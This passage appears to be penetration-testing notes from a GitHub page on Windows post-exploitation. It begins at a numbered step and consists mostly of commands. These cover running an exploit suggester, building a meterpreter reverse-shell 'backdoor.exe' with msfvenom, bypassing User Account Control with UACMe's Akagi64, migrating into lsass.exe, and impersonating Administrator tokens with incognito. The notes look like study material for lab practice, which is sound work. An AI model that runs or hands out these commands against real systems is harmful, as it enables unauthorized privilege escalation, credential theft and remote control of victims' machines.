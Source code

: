 **Step 02:**

```Shell
install python-xlrd, $ pip install xlrd --upgrade
```

**Step 03:**

```Shell
./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt
```

#### Bypassing UAC with UACMe:

***UAC STANDS FOR USER ACCOUNT CONTROL***

```meterpreter
pgrep explorer
migrate <process-ID>
```

> This command can be used to switch to the 64 Bit meterpreter session.

```Shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.31.2 LPORT=4444 -f exe > 'backdoor.exe'
```

> Generating malicious executable using msfvenom.

```console
/root/Desktop/tools/UACME/Akagi64.exe
```

> Location of the `Akagi` exploit that is used to bypass UAC.

```Shell
Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
```

> `Akagi` command is used to run the exploit by bypassing the UAC.

```CMD
ps -S lsass.exe
migrate <process-ID>
```

> After the exploitation and meterpreter session migrate to the `lsass.exe` process.

#### Access Token Impersonation:

**Note:**

> Everything demonstrated here after is basically done after the initial foothold.

***YOU HAVE TO PERFROM THE FOLLOWING FUNCTION IN THE METERPRETER SESSION. YOU CAN TO FOLLOWING IF AND ONLT IF YOU HAVE THE `SeImpersonationPrivilages` IN THE `getprivs` SECTION***

```msfconsole
load incognito
list_tokens -u
impersonate_token "<group-name>\Administrator"
getuid
pgrep explorer
migrate <process-id>
```
